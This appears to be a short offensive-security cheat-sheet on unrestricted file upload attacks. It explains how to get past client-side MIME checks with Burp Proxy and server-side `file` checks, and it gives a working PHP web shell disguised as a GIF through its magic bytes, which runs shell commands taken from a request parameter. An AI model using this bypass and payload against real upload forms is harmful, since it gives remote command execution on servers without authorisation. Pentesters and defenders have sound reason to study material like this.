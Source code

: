 # Unrestricted File Upload (UFI)

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

[Unrestricted File Upload - OWASP](https://www.owasp.org/index.php/Unrestricted_File_Upload)

## Bypass MIME check - client side

With BurpProxy on, upload your shell  and then change the header to `Content-Type: image/jpeg`

## Bypass MIME check - server side

It's easy to bypass a check done with the `file` command on the server.

This file, for example, will be recognised as a proper **GIF** - but if it ends in `.php` the file will be executed.

```txt
GIF8
<?php echo system($_REQUEST['cmd']); ?>
```
